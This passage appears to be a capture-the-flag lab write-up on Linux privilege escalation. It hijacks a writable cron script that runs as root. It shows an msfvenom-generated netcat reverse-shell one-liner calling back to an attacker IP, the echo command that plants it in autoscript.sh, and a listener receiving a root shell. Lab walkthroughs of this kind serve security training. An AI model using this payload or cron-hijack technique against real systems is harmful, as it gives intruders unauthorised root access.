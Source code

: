 For Example,
```sh
#  m   h dom mon dow user  command

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```

How can we exploit this?

We know from our LinEnum scan, that the file autoscript.sh, on user4's Desktop is scheduled to run every five minutes. It is owned by root, meaning that it will run with root privileges, despite the fact that we can write to this file. The task then is to create a command that will return a shell and paste it in this file. When the file runs again in five minutes the shell will be running as root.

Let's do it!

```sh
#msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
#local server
sudo msfvenom -p cmd/unix/reverse_netcat lhost=10.10.3.18 lport=8888 R

root@ip-10-10-3-18:~# sudo msfvenom -p cmd/unix/reverse_netcat lhost=10.10.3.18 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 96 bytes
mkfifo /tmp/inczcu; nc 10.10.3.18 8888 0</tmp/inczcu | /bin/sh >/tmp/inczcu 2>&1; rm /tmp/inczcu

```

```sh
#target server
user4@polobox:/home/user3$ cd ../user4/Desktop/
user4@polobox:~/Desktop$ echo 'mkfifo /tmp/inczcu; nc 10.10.3.18 8888 0</tmp/inczcu | /bin/sh >/tmp/inczcu 2>&1; rm /tmp/inczcu' > autoscript.sh
user4@polobox:~/Desktop$ cat autoscript.sh
mkfifo /tmp/inczcu; nc 10.10.3.18 8888 0</tmp/inczcu | /bin/sh >/tmp/inczcu 2>&1; rm /tmp/inczcu
user4@polobox:~/Desktop$ ls autoscript.sh
autoscript.sh
user4@polobox:~/Desktop$ ls -la autoscript.sh
-rwxrwxr-x 1 user4 user4 97 Oct 10 02:15 autoscript.sh
```

```sh
#local server
root@ip-10-10-3-18:~# nc -lvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
Connection from ip-10-10-242-157.eu-west-1.compute.internal 46114 received!
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root

```
